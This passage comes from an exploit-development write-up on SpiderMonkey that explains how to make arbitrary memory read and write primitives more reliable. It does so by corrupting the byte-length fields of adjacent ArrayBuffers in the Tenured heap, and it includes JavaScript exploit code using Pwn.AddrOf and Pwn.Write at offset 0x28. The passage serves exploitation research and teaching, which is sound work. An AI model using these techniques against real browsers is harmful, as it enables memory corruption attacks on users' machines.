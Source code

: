 ### Improving the reliability of the memory access primitives

What I decided to do here is pretty simple: move to new grounds. As soon as I get to read and write memory thanks to the corruption in the Nursery; I use those primitives to corrupt another set of objects that are allocated in the Tenured heap. I chose to corrupt [ArrayBuffer](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/ArrayBuffer) objects as they are allocated in the Tenured heap. You can pass an ArrayBuffer to a TypedArray at construction time and the TypedArray gives you a view into the ArrayBuffer's buffer. In other words, we will still be able to read raw bytes in memory and once we redefine our primitives it will be pretty transparent.

```C++
class ArrayBufferObject : public ArrayBufferObjectMaybeShared
{
  public:
    static const uint8_t DATA_SLOT = 0;
    static const uint8_t BYTE_LENGTH_SLOT = 1;
    static const uint8_t FIRST_VIEW_SLOT = 2;
    static const uint8_t FLAGS_SLOT = 3;
// [...]
};
```

First things first: in order to prepare the ground, we simply create two adjacent ArrayBuffers (which are represented by the `js::ArrayBufferObject` class). Then, we corrupt their `BYTE_LENGTH_SLOT` (offset +0x28) to make the buffers bigger. The first one is used to manipulate the other and basically service our memory access requests. Exactly like in `basic.js` but with ArrayBuffers and not TypedArrays.

```JavaScript
//
// Let's move the battlefield to the TenuredHeap
//

const AB1 = new ArrayBuffer(1);
const AB2 = new ArrayBuffer(1);
const AB1Address = Pwn.AddrOf(AB1);
const AB2Address = Pwn.AddrOf(AB2);

Pwn.Write(
    Add(AB1Address, 0x28),
    [0x00, 0x00, 0x01, 0x00, 0x00, 0x80, 0xf8, 0xff]
);

Pwn.Write(
    Add(AB2Address, 0x28),
    [0x00, 0x00, 0x01, 0x00, 0x00, 0x80, 0xf8, 0xff]
);
```

Once this is done, we redefine the `Pwn.__Access` function to use the Tenured objects we just created. It works nearly as before but the one different detail is that the address of the backing buffer is right-shifted of 1 bit. If the buffer resides at `0xdeadbeef`, the address stored in the `DATA_SLOT` would be `0xdeadbeef >> 1 = 0x6f56df77`.
